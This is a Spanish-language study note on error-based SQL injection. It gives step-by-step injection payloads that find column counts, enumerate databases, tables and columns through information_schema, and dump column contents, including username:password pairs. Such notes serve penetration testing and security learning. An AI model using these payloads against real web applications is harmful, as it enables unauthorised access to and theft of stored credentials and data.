 # Error-Based SQL Injection

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #sql #exploiting

***

## Definición

> La **Inyección de SQL basada en errores** es una táctica de ciberataque que explota vulnerabilidades en aplicaciones web al introducir código SQL malicioso a través de entradas no validadas. Esta técnica se aprovecha de las respuestas de error generadas por la base de datos para revelar información sobre la estructura y contenido de la base de datos. Los atacantes utilizan esta información para manipular las consultas y acceder a datos confidenciales, modificar registros o incluso tomar el control del sistema. En caso de no ser capaces de visualizar las respuestas de error, emplearemos \[\[Non-Error-Based SQL Injection]]

## Pasos

### Detectar si es vulnerable

Podemos detectar si una página es vulnerable a este tipo de \[\[SQL Injection]] de diferentes maneras. Una de ellas consiste en añadir una comilla simple en la solicitud, y si nos devuelve algún tipo de error avisando de que la sintaxis de la query introducida es incorrecta, posiblemente sea vulnerable.

```
select column from table where id='$id';    #Si introducimos como id 1' <query a realizar> -- - se cierran las comillas con la introducida y 
								#Podemos ejecutar la query deseada, seguido de un comentario (-- -) para no dar error con la comilla suelta
```

Puede darse el caso, en el que no haga falta el uso de comillas ya que la solicitud que se esté enviando no esté bien programada, como ejemplo podemos ver la siguiente query:

```
select column from table where id=$id;     #Si introducimos como id 1 <query a realizar> se ejecutaría la query deseada
```

Además de estos casos puede ser que tengas que introducir un paréntesis o cualquier otro carácter.

### Deducir el número de columnas existentes en la tabla actual

Nuestra idea como atacantes siempre que comencemos con un ataque de **SQL**, es determinar cuantas columnas hay en la tabla actual. Lo podemos conseguir intentando realizar un ordenamiento de columnas, de manera que podemos ir probando hasta encontrar dicho número. Si empezamos ordenando la tabla por un número grande con el que nos de error, podemos ir bajando hasta encontrar el número exacto de columnas. Se vería algo así:

```
1' order by 50-- -        #ERROR
1' order by 49-- -        #ERROR
1' order by 48-- -        #No ERROR, hay 48 columnas en la tabla actual
```

Podemos tratar de añadir nuevas filas, para tratar de conseguir el número de columnas existentes de la siguiente manera:

```
1' UNION SELECT null-- - No funciona
1' UNION SELECT null,null-- - No funciona
1' UNION SELECT null,null,null-- - Funciona => Hay 3 columnas
```

### Añadir nuevas filas con nuevos datos

Podemos intentar añadir nuevas filas con los datos que queramos, para intentar visualizarla como salida de la query de la siguiente manera:

```
1' union select NULL,NULL,NULL-- -    #En este caso hemos supuesto que hay 3 columnas, si hubiera más o menos habría que cambiarlo
1' union select 1,2,3-- -    
```

Puede darse el caso de que no se visualicen los datos que acabamos de introducir, y puede ser porque el valor que hemos introducido exista (pe si estamos introduciendo ids, seguramente el 1 exista), así que trataremos de introducir uno que no exista para poder visualizar lo que hemos añadido (con el mismo ejemplo de ids, difícilmente exista el 124125123123).

Si hemos llegado hasta aquí pudiendo visualizar lo que hemos introducido, la cosa se puede tensar, porque si en vez de introducir valores que no nos interesan, pedimos el nombre de la base de datos, las bases de datos existentes u otro campo al que no deberíamos tener acceso, accederíamos a información no autorizada.

### Listar bases de datos existentes

Para conocer el nombre de la base de datos en la que nos encontramos actualmente, podemos ejecutar el siguiente comando:

```
124125123123' union select database()-- -
```

Para listar el nombre de todas las bases de datos existentes en el sistema, podemos ejecutar el siguiente comando:

```
123123' union select group_concat(schema_name) from information_schema.schemata-- -
```

Podemos hacerlo en vez de concatenando el nombre de las bases de datos, listando de una a una:

```
123123' union select schema_name from information_schema.schemata limit 0,1-- -
123123' union select schema_name from information_schema.schemata limit 1,1-- -
123123' union select schema_name from information_schema.schemata limit 2,1-- -
...
```

### Listar las tablas de una base de datos existente

```
123123' union select group_concat(table_name) from information_schema.tables where table_schema='<DATABASE_NAME>'-- -
```

Al igual que para listar las bases de datos, podemos utilizar la opción de limit para ir listando de una en una las tablas existentes.

### Listar las columnas de una tabla de una base de datos existente

```
123123' union select group_concat(column_name) from information_schema.columns where table_schema='<DATABASE_NAME>' and table_name='<TABLE_NAME>'-- -
```

Al igual que para listar las bases de datos, podemos utilizar la opción de limit para ir listando de una en una las columnas existentes.

### Listar el contenido de las columnas de una tabla de una base de datos existente

Para listar el contenido de una columna con nombre _COLUMN\_NAME_ para la tabla _TABLE\_NAME_ de la **base de datos actual**, podemos hacer uso del siguiente comando:

```
123123' union select group_concat(<COLUMN_NAME>) from <TABLE_NAME>-- -
```

Si quisiéramos listar el contenido de una columna de una tabla de una base de datos que **no es en la que nos encontramos actualmente**, podemos ejecutar lo siguiente:

```
123123' union select group_concat(<COLUMN_NAME>) from <DATABASE_NAME>.<TABLE_NAME>-- -
```

Si quisiéramos ver el contenido de **dos columnas** (por ejemplo de username y password) separado por dos puntos, podemos hacer uso de la concatenación para ejecutar el siguiente comando:

```
123123' union select group_concat(<COLUMN_NAME1>,':',<COLUMN_NAME2>) from <DATABASE_NAME>.<TABLE_NAME>-- -

#Puede ser que no funcione por las comillas añadidas, así que introducimos los dos puntos en hexadecimal
123123' union select group_concat(<COLUMN_NAME1>,0x3a,<COLUMN_NAME2>) from <DATABASE_NAME>.<TABLE_NAME>-- -
```
